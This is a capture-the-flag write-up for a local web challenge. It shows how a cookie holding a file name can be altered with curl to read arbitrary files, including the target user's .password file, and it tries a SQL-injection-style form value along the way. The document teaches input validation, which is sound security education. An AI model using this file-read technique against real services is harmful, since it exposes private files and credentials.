 ## Level 2: always validate all types of user input

As the message of the day explains,
the next challenge is a web-based vulnerability.
Let's start by opening the URL to see what the page does:

    curl localhost:8002

The page has a simple form with two input fields:
name and age.
Let's play with that a little bit,
especially by entering invalid values,
and see what happens:
```
curl localhost:8002 -d name=jack
curl localhost:8002 -d name=jack -d age=3
curl localhost:8002 -d name=jack -d age=x
curl localhost:8002 -d age=3
curl localhost:8002 -d name="';select * from users" -d age=x
```

The page greets us back if we enter values in both fields.
That doesn't really help us.
But we haven't checked all possible types of user input.
What about cookies, for example?
Most websites store some data in cookies,
for example a session id,
so that users don't need to login repeatedly.

How do cookies really work?
Cookies are usually set by the server,
by adding a `Set-Cookie` value in the header of an HTTP response.
Once a browser received a cookie,
it will resend it to the server in every future request until it expires,
by setting the exact same value in the `Cookie` header.
That's what a well-behaving browser does.
But nothing prevents us from setting it to something else.

Enough speculation,
let's see if this website uses cookies.
One way to do that is adding the `-v` flag to see detailed output.
A cleaner way is to save the header in a file using the `--dump-header` or its shorter alias `-D`:
```
$ curl localhost:8002 -D header.txt
$ cat header.txt 
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 462
Set-Cookie: user_details=amzyYydipxZeZoVg.txt; Path=/
Server: Werkzeug/0.9-dev Python/2.7.3
Date: Thu, 26 Sep 2013 05:49:09 GMT
```

As you can see the `Set-Cookie` line,
the website sets a cookie with name `user_details`,
and a seemingly random value.
Let's send the cookie back and see what happens:

    curl localhost:8002 --cookie user_details=amzyYydipxZeZoVg.txt

Notice in the response an extra line above the input form:

    <p>127.0.0.1 is using curl/7.21.7 (i686-pc-linux-gnu) libcurl/7.21.7 OpenSSL/1.0.0d zlib/1.2.5 libssh2/1.2.7</p>

Actually this happens to be an information about us, the client:
`127.0.0.1` is our IP address and the text after "is using" is the `User-Agent` string of our "browser", `curl`.

What happens if we are not a well-behaving client and set the cookie to something else?

    curl localhost:8002 --cookie user_details=x

We get a `500 Internal Server Error`.
That doesn't help us much,
but we can do better than shooting randomly.
Notice that the value set by the server looks suspiciously like a filename,
thanks to its `.txt` extension.
What if we set the value to a valid file that actually exists in the filesystem?

    echo hello > /tmp/x
    curl localhost:8002 --cookie user_details=/tmp/x

Sweet! The page prints the contents of the file!
Specifying the real file we're after probably works too:

    curl localhost:8002 --cookie user_details=/home/level02/.password

Bingo!
We managed to misuse the web service to do something it was clearly not intended for:
print the content of a file that's supposed to be private to the owner of the process,
user `level02`.
And we didn't even need to look at the source code!

### Lessons to learn

- Don't trust user input.
  You have to validate all possible kinds of external input:
  form fields, cookies, command line arguments,
  anything your programs might receive from its users.

- Take a long hard look at web services you have ever written.
  What will happen if you feed them with invalid input?
  Are you sure there are no input fields or cookies that can be misused?
